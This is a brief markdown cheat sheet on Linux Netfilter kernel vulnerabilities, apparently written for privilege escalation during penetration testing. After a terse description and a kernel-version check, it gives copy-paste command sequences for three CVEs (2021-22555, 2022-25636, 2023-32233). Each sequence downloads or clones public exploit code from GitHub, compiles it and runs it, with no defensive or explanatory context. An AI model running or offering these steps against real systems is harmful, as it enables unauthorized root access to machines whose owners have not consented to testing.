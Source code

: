 # Netfilter

like firewall but on Linux kernel which analyze each packet

Netfilter is a Linux kernel module responsible for packet filtering, NAT, and firewall rules. It interacts with tools like `iptables` and can be exploited via several known vulnerabilities.

have 3 CVE popular

```bash
uname -r 
```

***

**CVE-2021-22555**

```bash
wget <https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c>
gcc -m32 -static exploit.c -o exploit
./exploit
```

**CVE-2022-25636**

```bash
git clone <https://github.com/Bonfee/CVE-2022-25636.git>
cd CVE-2022-25636
make
./exploit
```

**CVE-2023-32233**

```bash
git clone <https://github.com/Liuk3r/CVE-2023-32233>
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```
